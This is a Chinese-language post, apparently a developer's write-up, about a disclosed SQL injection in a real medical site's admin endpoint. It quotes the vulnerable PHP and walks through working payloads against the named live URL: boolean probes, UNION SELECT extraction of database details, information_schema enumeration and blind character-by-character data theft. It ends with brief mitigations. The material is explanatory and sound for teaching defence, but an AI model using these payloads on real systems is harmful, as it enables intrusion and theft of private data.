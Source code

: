 ### 事件起源

http://www.wooyun.org/bugs/wooyun-2013-015887 披露了"盲注拿后台权限+爆库"。

研究了一下入侵的手段，还是传统的sql injection。细看代码，如下：
 
```php
public function showPublishInfo($hospitalId , $type){
        $condition = ' 1 = 1 ';
        if($hospitalId != null)
        {
                if(is_array($hospitalId))
                {
                        $hospitalId = implode(',',$hospitalId);
                        $condition .= " and hospitalid in ($hospitalId) ";
                }
                else
                {
                        $condition .= " and hospitalid = $hospitalId ";
                }
        }
        $condition .= ($type=='check') ? " and isconfirmed = 0 " : '';
        $list = $this->find_all_by_condition('OfficialPublishInfo',$condition);
        return $list ;
}
```
 
 
 
典型的没有走绑定变量的接口，而直接拼接sql语句了。扩展开来，解释一下关于sql injection问题。定义："所谓SQL注入，就是通过把SQL命令插入到Web表单提交或输入域名或页面请求的查询字符串，最终达到欺骗服务器执行恶意的SQL命令"。
通过注入可以轻松拿到网站的db，如图：


### sql injection原理

如这个uri：http://publish.haodf.com/admin/showpublishinfo?type=&hospitalId=1

参数是type和hospitalId，可以作为输入点进行刺探，猜测程序原理如：

```php
$id=$_GET['hospitalId'];
$sets = mysql_query('select * from xxx where hospitalid='.$id);
```

sql injection的目的是为了达到可以让mysql执行如:

select * from xxx where hospitalId=$id and xxx 的目的，"and xxx"是通过入侵者通过参数输入的。

select * from xxx where hospitalId=0; drop table xxx;，通过参数输入的"; drop table xxx;，通过参数输入的"。



#### 首次刺探 

分别尝试：

and 1=1：http://publish.haodf.com/admin/showpublishinfo?type=&hospitalId=1+and+1%3D1
and 1=2：http://publish.haodf.com/admin/showpublishinfo?type=&hospitalId=1+and+1%3D2

看到返回结果不同，证明注入成功了，因为1=2这个是不成立的，导致sql没有查出结果。sql injection刺探的一切来源，皆是此类判断。

#### 继续拿详细信息

识别使用的mysql版本范围：ord(mid(version(),1,1))>51

如：http://publish.haodf.com/admin/showpublishinfo?type=&hospitalId=1+and+ord%28mid%28version%28%29%2C1%2C1%29%29%3E51

发现返回正常页面，则说明是mysql，且版本大于4.0，支持union查询，反之是4.0以下版本或者其它类型db。

看下列数：order by N：select * from db_Hdf.officialpublishinfos where hospitalid=1 order by 2 根据列排序，逐步增加N来判断有多少列。

判断出列数后，就可以进一步利用网页展示信息来显示想要得到的数据了，假设db_Hdf.officialpublishinfos有4列，不存在hospitalid=0的数据，则：

select * from db_Hdf.officialpublishinfos where hospitalid=0 union select 1,2,3,4

这样页面原本显示title，content，user，ctime的位置就显示了1，2，3，4。进而：

select * from db_Hdf.officialpublishinfos where hospitalid=0 union select database(), version(), user(), now()

执行mysql命令就可以在页面中显示数据库名字，版本，用户，系统时间等敏感信息了，如：

nfs_avatar 5.5.23-log hdf@192.168.16.113 2013-01-08 15:39:54

#### 准备拿mysql的全景数据

在mysql5.0后增加了information_schema，一次性汇总了所有情况，方便拿到库，表，字段等等信息了，如：
库：select * from information_schema.SCHEMATA
表：select * from information_schema.TABLES
列：select * from information_schema.COLUMNS

http://dev.mysql.com/doc/refman/5.1/zh/information-schema.html

#### 准备拿某个表的数据

select * from db_Hdf.officialpublishinfos where hospitalid=1
and ascii(substring((select appbooking.id from db_Hdf.appbooking order by devicetoken limit 0,1),3,1))<56

暴力破解。可以看到原始数据：select appbooking.id from db_Hdf.appbooking Order by devicetoken limit 0,1 为：838811569

使用 ascii(substring((select appbooking.id from db_Hdf.appbooking order by devicetoken limit 0,1),M,N))<A 来逐位破解数值。

838811569，第3位是"8"，ascii(8)=56，所以当执行上述时，56是个分界点（条件是否成立）。

逐位破解时间太久？可以利用算法优化，比如简单的折半查找等。

进一步修改数据等就看运气了，是否有帐号可以执行，略过不表。
 
### 综上所述

sql injection的大致过程如下：

1. 定位url的参数；
2. 找到可以注入的点进行刺探；
3. 判断数据库类型；
4. 根据数据库类型来取得相关的信息；
5. 拿库，表，字段，权限等信息；
6. 寻找敏感信息，比如应用的权限表，账户，密码等；
7. 修改数据，寻找其它漏洞，攻破系统，webshell等高级行为。

### WEBSHELL 
相比较sql injection来说，webshell威力更猛，http://baike.baidu.com/view/53110.htm 相当于木马，后门

### sql injection防范措施 

* 绑定变量，预编译sql；
* 限制sql执行权限，不使用管理员权限帐号；